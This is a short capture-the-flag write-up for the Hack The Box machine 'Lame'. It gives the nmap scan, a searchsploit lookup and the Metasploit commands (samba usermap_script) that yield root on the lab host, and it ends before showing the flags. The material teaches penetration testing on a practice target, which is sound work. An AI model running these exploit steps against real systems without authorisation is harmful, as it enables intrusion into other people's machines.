




# Hack the box - Lame


&nbsp;<span style="color:#b5e853; font-weight: bold">OS:  </span><b>Linux</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.3</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2017 Mar 14</b>

___

## Port scanning
```
nmap -sC -sV -T4 -oA nmap 10.10.10.3
```


We can see there is anonymous FTP login on port 21 and 2 samba smbd services running.

___

## Gaining access

We will use searchsploit for checking vulnerabilities:

```
searchsploit samba 3 metasploit
```



Now it is clear that we can use metasploit to exploit backdoor vulnerability:

```
msfconsole
use exploit/multi/samba/usermap_script
set rhosts 10.10.10.3
exploit
```



After successful exploit, it seems that we have root access to the system so we can easily get the flags:

